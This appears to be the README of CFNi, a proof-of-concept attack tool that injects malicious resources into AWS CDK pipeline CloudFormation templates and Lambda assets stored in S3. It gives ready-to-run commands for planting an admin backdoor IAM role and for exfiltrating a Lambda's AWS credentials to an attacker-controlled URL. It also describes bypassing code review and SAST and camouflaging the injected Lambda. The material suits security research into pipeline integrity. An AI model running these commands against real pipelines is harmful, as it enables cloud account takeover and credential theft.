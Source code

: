 # CFNi - Cloudformation injection
![Build Status](https://github.com/hupe1980/cfni/workflows/build/badge.svg) 
[![Go Reference](https://pkg.go.dev/badge/github.com/hupe1980/cfni.svg)](https://pkg.go.dev/github.com/hupe1980/cfni)
> CFNi is a proof-of-concept to demonstrate an attack on the populare aws cdk pipeline. It takes advantage of the fact that between the "synth" step and the use of the cloudformation templates and lambda assets some time passes ("SelfMutate") and no integrity check is performed by default. After receiving an event from s3, the lambda function injects the malicious code/resources into the generated files. SAST/DAST controls and pull request reviews are bypassed and other accounts can also be attacked if the pipeline supports crossaccount deployments.

:warning: This is for educational purpose. Don't try it without permission!

## IAM
CFNi is designed to use a secondary account that you have full access to. The lambda is deployed there. This eliminates the need to have the required permissions in the target account. The credentials for this account should be specified with the `--attacker-profile` flag.

The `--bucket-profile` should have s3:PutBucketNotification permission to the targeted S3 bucket.

The `--s3-access-key-id`, `--s3-secret-access-key` and optionally `--s3-session-token` should have s3:GetObject and s3:PutObject permissions on the target S3 bucket. These credentials are hardcoded into the lambda during deployment and used to read the bucket files and inject the malicious code/resources.

Everything can also only be done in the bucket account. To do this, the same profile must be specified for the `--attacker-profile` and `--bucket-profile` flags. If no access-key is specified, CFNi tries to give the LambaExecutionRole the required s3:GetObject and s3:PutObject permissions.

## Attacks
The proof-of-concept currently supports the following attacks:
- [IAM Role Backdoor](#iam-role-backdoor)
- [Lamda Exfiltration](#lambda-exfiltration)

### IAM Role Backdoor
Adds a role with admin permissions.

```
Usage:
  cfni iam-role-backdoor [flags]

Examples:
cfni iam-role-backdoor --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX

Flags:
      --environment strings           filter environments (default all environments)
  -h, --help                          help for iam-role-backdoor
      --logical-id string             logical id of the backdoor role (default "MaintenanceRoleBF21E41F")
  -p, --principal string              principal for backdoor role (default root principal of the attacker account)
  -r, --role-name string              name of the backdoor role (default generated role-name)
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)
      --stage strings                 filter stages (default all stages)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
  -b, --bucket string             bucket name (required)
      --bucket-profile string     bucket AWS profile
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```

### Lambda Exfiltration
Injects a script that executes a post request with the lambda's environment variables as the body. access-key-id, secret-access-key and session-token are included in the payload.

```
Usage:
  cfni lambda-exfiltration [flags]

Examples:
cfni lambda-exfiltration --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX --url https://xxxyem3.oastify.com

Flags:
      --environment strings           filter environments (default all environments)
  -h, --help                          help for lambda-exfiltration
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)
      --stage strings                 filter stages (default all stages)
  -u, --url string                    exfiltration url (required)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
  -b, --bucket string             bucket name (required)
      --bucket-profile string     bucket AWS profile
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```

## Camouflage
If the lambda is deployed in the bucket account, it camouflages itself ;o)

![camouflage](assets/camouflage.png)

## License
[MIT](LICENCE)